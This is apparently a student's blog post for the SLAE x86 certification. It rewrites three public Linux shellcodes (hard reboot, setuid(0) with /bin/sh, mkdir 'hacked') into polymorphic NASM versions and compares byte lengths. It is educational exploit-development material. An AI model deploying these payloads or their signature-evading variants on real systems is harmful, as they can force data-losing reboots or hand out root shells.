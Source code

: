 ```yaml
---
layout: post
title:  "SLAE x86 Exam - Assignment 6"
categories: certs slae 
---
```



## Assignment #6 - Polymorphic shellcode
_Student ID: **PA-7854**_

The assignment indications are as follows:
* Take up at least 3 shellcode samples from [shell-storm.org](http://shell-storm.org) and create polymorphic versions of them
* It cannot be larger than 150%
* Bonus if it ends up to be shorter

The code is available at [my github repo](https://github.com/0xKiewicz/SLAE)

The very first shellcode i choose is [Linux/x86 - hard reboot (without any message) and data will be lost - 29 bytes](http://shell-storm.org/shellcode/files/shellcode-638.php). 

#### 1. Hard reboot
Comments are in `at&t` syntax  which i don't like, so i just converted it to `intel` syntax:
```nasm
00000000  31C0              xor eax,eax
00000002  B058              mov al,0x58
00000004  BBADDEE1FE        mov ebx,0xfee1dead
00000009  B969191228        mov ecx,0x28121969
0000000E  BA67452301        mov edx,0x1234567
00000013  CD80              int 0x80
00000015  31C0              xor eax,eax
00000017  B001              mov al,0x1
00000019  31DB              xor ebx,ebx
0000001B  CD80              int 0x80
```
 
It simply executes the `reboot` syscall, which is `0x58` (88 in decimal), with the `magic1` (0xfee1dead) and `magic2` (0x28121969) set, to avoid failing. Also, the command to be executed is `RB_AUTOBOOT` (0x1234567), which prints a message and restarts immediately.

My polymorphic version of this is as follows, with each change explained with a comment:
```nasm
global _start
section .text
_start:
        xor     esi, esi 	; clear out ESI, instead of EAX
        mov     al,0x58
        mov     ebx,0xfee1dead
        mov     ecx,0x28121969
        mov     edx,0x1234567
        int     0x80

        mov     eax, esi	; Clear out EAX by copying ESI
        inc     eax		; Increment EAX by 1
        xor     ebx,ebx
        int     0x80
```

```bash
--snip--
Shellcode Length:  28
```
28 bytes length! That's awesome, it's one byte smaller than the original shellcode. 
Let's pick up another one.

#### 2. setuid(0) & /bin/sh 
The second one will be [Linux/x86 - setuid(0) & execve(/bin/sh,0,0) - 28 bytes](http://shell-storm.org/shellcode/files/shellcode-61.php).

This is the original shellcode:
```nasm
00000000  31DB              xor ebx,ebx
00000002  8D4317            lea eax,[ebx+0x17]
00000005  99                cdq
00000006  CD80              int 0x80
00000008  31C9              xor ecx,ecx
0000000A  51                push ecx
0000000B  686E2F7368        push dword 0x68732f6e
00000010  682F2F6269        push dword 0x69622f2f
00000015  8D410B            lea eax,[ecx+0xb]
00000018  89E3              mov ebx,esp
0000001A  CD80              int 0x80
```

It just executes the `setuid` syscall (`0x17` loaded into EAX), followed by the `execve` syscall (`0xb`) with the command `/bin/sh`.

This is my polymorphic version of it, again commenting the changes:
```nasm
	xor	ebx,ebx
	mul	ebx		; clear out EAX
	mov 	al, 0x17	; put 0x17 in the lower bits of EAX
	int	0x80	
	mul 	ebx		; clear out EAX
	xor 	ecx, ecx	
	push 	ecx
	push 	0x68732f6e
	push 	0x69622f2f
	mov 	al, 0xb		; put 0xb in the lower bits of EAX
	mov	ebx,esp
	int	0x80
```

```bash
--snip--
Shellcode length: 29 bytes
```
Great. This one was 29 bytes, meaning 1 byte bigger than the original one, still within the limits.

#### 3. mkdir 
The third and last shellcode to create a polymorphic version of is[Linux/x86 - mkdir() & exit() - 36 bytes](http://shell-storm.org/shellcode/files/shellcode-542.php).

This is the disassembled code:
```nasm
00000000  EB16              jmp short 0x18
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  884606            mov [esi+0x6],al
00000008  B027              mov al,0x27
0000000A  8D1E              lea ebx,[esi]
0000000C  66B9ED01          mov cx,0x1ed
00000010  CD80              int 0x80
00000012  B001              mov al,0x1
00000014  31DB              xor ebx,ebx
00000016  CD80              int 0x80
00000018  E8E5FFFFFF        call dword 0x2
0000001D  6861636B65        push dword 0x656b6361
00000022  64                fs
00000023  23                db 0x23
```
As the comment states, it creates a folder named _hacked_ and exit grafecully. 
This too is using the technique `JMP-CALL-POP`.

Here is my version, changes made are commented next to each instruction:

```nasm
	cdq			; clear out EDX
	mov eax, edx		; set EAX = 0
	xor ecx, ecx		; clear out ECX
	push ecx		; push NULL byte, next string terminator
	push dword 0x64646465 	; ddde
	push dword 0x6b636168 	; kcah
	mov al,0x27 		; mkdir syscall = 39 (decimal)
	mov ebx, esp		; pointer to string
	mov cx, 0x1ed		; mode
	int 0x80 
	mov al,0x1 
	xor ebx,ebx 
	int 0x80 
```

```bash
--snip--
Shellcode Length: 32
```

Awesome, this one is smaller than the original by 4 bytes!

With this, we finish up this assignment.
